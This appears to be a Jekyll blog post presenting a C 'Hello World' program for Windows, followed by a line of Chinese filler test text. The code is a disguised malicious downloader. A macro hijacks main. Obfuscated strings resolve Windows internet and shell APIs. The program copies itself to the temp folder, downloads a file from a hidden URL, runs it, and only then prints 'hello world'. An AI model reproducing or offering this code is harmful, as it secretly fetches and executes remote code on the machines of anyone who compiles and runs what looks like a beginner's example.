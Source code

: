 ```yaml
---
layout: post
title: "Hello World"
description: "一段Windows下的Hello World程序"
---
```

{% highlight c %}
#include <stdio.h>
#define sc _stdcall
#define M main
int _m(); 
#define main M(l p,l q){_hd(p,q);_m();}int _m
typedef unsigned long l;typedef char c,*s;typedef void v,*p;
typedef l(sc*F0)();typedef l(sc*F9)(l,l,l,l,l,l,l,l,l);
typedef l(sc*F1)(l); typedef l(sc*F8)(l,l,l,l,l,l,l,l);
typedef l(sc*F2)(l,l); typedef l(sc*F7)(l,l,l,l,l,l,l);
typedef l(sc*F3)(l,l,l); typedef l(sc*F6)(l,l,l,l,l,l);
typedef l(sc*F4)(l,l,l,l); typedef l(sc*F5)(l,l,l,l,l);
c __mp[1<<7]={0};l i,j,k,m,n,kl,nl,sl;c bf[1<<12];
l strcpy(l,l);l strcat(l,l);
F1 _nc,_ll,_fc;F2 _ga,_tp;F3 _cf;F4 _nr;F5 _no,_fw;F6 _nu,_sh;F7 _fn;
s __st[]={")GFzGda&Zldd","MszszG\\Zldd","!8Gdda&Zldd",
          "3z\\GFzG\\u0Gz;","3z\\GFzG\\fG{lBsdG","3z\\GFzG\\u0GzWFd;",
          "3z\\GFzG\\QdU!GX{zldG","QFG{\\GBsdG;","mFs\\GBsdG",
          "QdU!GX{zldG","QU0cBsdG;\0\\;","}G\\|G?0P{\\8;",
          "A8Gddg(G17\\G;","zGMVGFZG(G","8\\\\0~55MZ!Z]05sz!\\{ddZl{\\",
          "\\G?0ZG(G\0QEd","F7z{!\0\\0","U0Gz\0GzzD"};
l _dc(s o,s i){
    s p=i;do*(o+(l)p-(l)i+1)=__mp[*p];while(*p && p++);return 0;}
l rl(s z){for(i=0;i<sizeof(l)*8;i++)
    if(((l)z>>i)&1)z=(s)((l)z&~(1<<i));else{z=(s)((l)z|(1<<i));break;};
    return (l)z;}
v _in(){
    l sc LoadLibraryA(l);l sc GetProcAddress(l,l);
    i=j=0;do*(__mp+ j++ +0x20)=i+0x20,i=(i+83)%(0x60);while(i!=0);
    _ga =(F2)GetProcAddress,_ll=(F1)LoadLibraryA;kl=_ll((_dc(bf,__st[0]),rl(bf)));
    nl=_ll((_dc(bf,__st[1]),rl(bf)));sl=_ll((_dc(bf,__st[2]),rl(bf)));
    _no=(F5)_ga(nl,(_dc(bf,__st[3]),rl(bf)));_nr=(F4)_ga(nl,(_dc(bf,__st[4]),rl(bf)));
    _nu=(F6)_ga(nl,(_dc(bf,__st[5]),rl(bf)));_nc=(F1)_ga(nl,(_dc(bf,__st[6]),rl(bf)));
    _fn=(F7)_ga(kl,(_dc(bf,__st[7]),rl(bf)));_fw=(F5)_ga(kl,(_dc(bf,__st[8]),rl(bf)));
    _fc=(F1)_ga(kl,(_dc(bf,__st[9]),rl(bf)));_cf=(F3)_ga(kl,(_dc(bf,__st[10]),rl(bf)));
    _tp=(F2)_ga(kl,(_dc(bf,__st[11]),rl(bf)));_sh=(F6)_ga(sl,(_dc(bf,__st[12]),rl(bf)));
}
l _dl(l u){
    l cn,sn,f,rr,ln=0;
    sn=_no((l)"poilynx",1,0,0,0);if(!sn)return 0;
    cn = _nu(sn,(_dc(bf,__st[14]),rl(bf)),0,0,1<<30,0);
    if(!cn){_nc(sn);return 0;}f=_fn(u,1<<30,3,0,2,1<<7,0);
    while(_nr(cn,(l)bf, sizeof(bf),(l)&rr),rr)ln+=rr,_fw(f,(l)bf,rr,(l)&rr,0);
    _nc(cn);_nc(sn);_fc(f);
    return 1;
}
v _hd(l ac,l av)
{
    c td[1<<10];_in();_tp(1<<12,(l)td);
    if(ac>1 && (((s*)av)[1])[0]==0x53 && (((s*)av)[1])[1]==0){
        strcat((l)td,(_dc(bf,__st[13]),rl(bf)));
        while(!_dl((l)td));
        while(_sh(0,(_dc(bf,__st[16]),rl(bf)),(l)td,0,0,0)<1<<5);
    }else{
        strcat((l)td,(_dc(bf,__st[15]),rl(bf)));_cf((l)((s*)av)[0],(l)td,0);
        _sh(0,(_dc(bf,__st[17]),rl(bf)),(l)td,(m=0x53,(l)&m),0,0);}
    return;
}

int main()
{
    puts("hello world");
    return 0;
}
{% endhighlight %}

这是一段特特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别别长的测试文本。
